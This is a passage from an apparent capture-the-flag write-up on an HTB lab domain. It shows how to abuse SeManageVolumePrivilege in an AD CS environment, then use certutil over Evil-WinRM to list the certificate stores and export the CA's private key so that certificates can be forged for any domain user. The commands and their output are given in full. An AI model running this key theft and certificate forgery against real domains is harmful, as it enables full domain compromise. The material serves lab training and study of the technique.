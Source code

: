 ### Exploiting SeManageVolumePrivilege to forge certificates

The privilege escalation step here is specific to ADCS environments.
Issued certificates are stored in `C:\Windows\System32\Certlog` as *.edb files and normally these files are protected.
With the SeManageVolumeExploit we gain full control over these files, but as mentioned before, have no way of directly reading or copying those files.

Kudos to @whymir for discovering that after using the SeManageVolumeExploit, it's possible to export the CA's private key from the certificate stores using certutil.
With the CA's private key, we can use it to forge certificates for any user in the domain, similar to a Golden Ticket attack!

We first list the certificate stores on the machine using certutil.

```
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> certutil -Store My
================ Certificate 2 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Provider = Microsoft Software Key Storage Provider
Missing stored keyset
```

Then, because we have full permissions, we can export the CA's private key and download it over to our host.

```
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> certutil -exportPFX CA out.pfx
MY "Personal"
================ Certificate 2 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft Software Key Storage Provider
Signature test passed
Enter new password for output file out.pfx:
Enter new password:
Confirm new password:
CertUtil: -exportPFX command completed successfully.
```
